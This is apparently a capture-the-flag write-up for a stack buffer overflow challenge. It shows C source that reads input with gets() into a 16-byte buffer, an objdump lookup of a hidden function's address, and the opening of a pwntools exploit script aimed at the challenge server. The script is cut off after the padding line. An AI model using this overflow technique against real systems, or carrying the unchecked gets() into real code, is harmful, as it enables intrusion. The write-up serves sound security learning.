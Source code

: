 I am given a zip file with these files inside: `code_review.md`, `flag.txt`, `recipe`, and `recipe.c`. I see through manual testing that 24 characters cause the prompt to appear twice. 

The program reads input into a 16 byte buffer:
```t
// recipe.c  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
#include <fcntl.h>  
  
void secret_dough_recipe(void) {  
   int fd = open("flag.txt", O_RDONLY);  
   sendfile(1, fd, NULL, 100);  
}  
  
void vulnerable_dough_recipe() {  
   char recipe[16];  
   puts("Please enter the name of the recipe you want to retrieve:");  
   // Using gets() here is NOT a good idea!! We are not checking the size of the input from the user!  
   // The recipe-buffer can only store 16 bytes and the user can input more than that. This could lead to buffer overflows.  
   // If an attacker has the address of the secret_dough_recipe function, they could exploit this vulnerability to see our secret recipe!!  
   gets(recipe);  
}  
  
void public_dough_recipe() {  
   puts("Here is the recipe for you!");  
   puts("3 eggs and some milk");  
}  
  
int main(void) {  
   setvbuf(stdout, NULL, _IONBF, 0);  
   vulnerable_dough_recipe();  
   puts("Enjoy baking!");  
   return 0;  
}
```

```shell
objdump -d recipe | grep secret_dough_recipe  
00000000004011b6 <secret_dough_recipe>:
```

I make my exploit script:
```python
from pwn import *

RECIPE_BUFFER_SIZE = 16
RBP_SIZE = 8
SECRET_ADDRESS = 0x4011b6
PROMPT = "Please enter the name of the recipe you want to retrieve:"

USE_REMOTE = True
REMOTE_HOST = "dat-overflow-dough-eda41b56b6b7081d.challs.brunnerne.xyz"
REMOTE_PORT = 443

if USE_REMOTE:
    io = remote(REMOTE_HOST, REMOTE_PORT, ssl=True)
else:
    e = ELF("./recipe")
    io = e.process()

payload = b"A" * RECIPE_BUFFER_SIZE
```